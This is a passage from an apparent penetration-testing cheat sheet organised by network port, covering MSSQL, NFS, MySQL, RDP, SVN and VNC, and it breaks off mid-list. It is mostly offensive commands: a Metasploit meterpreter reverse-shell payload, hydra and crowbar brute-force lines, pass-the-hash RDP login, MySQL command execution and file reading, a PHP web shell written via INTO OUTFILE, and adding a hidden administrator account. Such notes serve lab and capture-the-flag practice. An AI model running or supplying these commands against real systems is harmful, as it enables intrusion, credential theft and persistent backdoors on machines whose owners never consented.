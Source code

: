 - Metasploit MSSQL Shell:
    
        msf > use exploit/windows/mssql/mssql_payload
        msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
    
## 2049 - NFS:
- View Shares:  `showmount -e <IP>`
- Mount Share Locally:  `sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>`
- View Exported Shares:  `cat /etc/exports`
- Privesc: look for no_root_squash/no_all_squash
## 3306 - MYSQL:
- Brute Force:  `hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mysql -vV -I -u`
- Local Connect:  `mysql -u <user> -p <password> [-e 'show databases;'  \\  -e 'use drupal; show tables; select * from users;']`
    - IF MYSQL LOCAL LOGIN DOESN'T WORK, USE MYSQLDUMP (or look for other mysql programs on box) (or use tool like Chisel):
        - `mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic`
    - ex. Setup local mysql database to connect to w/ adminer:  https://0xdf.gitlab.io/2020/09/26/htb-admirer.html
- Remote Connect:  `mysql -h <IP> -u <USER>`
- Commands:
    
        show databases;
        use <DATABASES>;
        show tables;
        describe <TABLE>;
        select * from <TABLE>;
        # Try to execute code
        select do_system('id');
        \! sh
        # Read & Write
        select load_file('<FILE>');
        select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '<OUT_FILE>'
    
## 3389 - RDP:
- Regular login:   `rdesktop [-d <DOMAIN>] -u <USERNAME> [-p <PASS>] <IP>  \\  xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP> /cert-ignore +clipboard`
- PTH:  `xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>`
- Brute Force:  `crowbar -b rdp -s <IP>/CIDR [-u <USER>  \\  -U <USERLIST>] -C <PASSWORDS_LIST>  \\  hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV`
- Add RDP User:  `net user <user> <pass> /add; net localgroup "Administrators" <USER> /add; net localgroup "Remote Desktop Users" <USER> /add`
## 3690 - SVN Server:
        svn info svn://10.10.10.203
        svn list svn://10.10.10.203
        svn export svn://10.10.10.203/moved.txt
        svn export svn://10.10.10.203/dimension.worker.htb/,  svn checkout -r 1 svn://worker.htb,  svn checkout -r 2 svn://worker.htb
## 5800/5900/5901/58001 - VNC:
- Scan:  `nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -v -p <PORT> <IP>`
- Brute Force:  `hydra -L <USERS_LIST> –P <PASSWORDS_LIST> -s <PORT> <IP> vnc -u -vV`
- Connect:  `vncviewer <IP>:<PORT>`
- Default Password Locations:
    - Linux: ~/.vnc/passwd
    - Windows:
    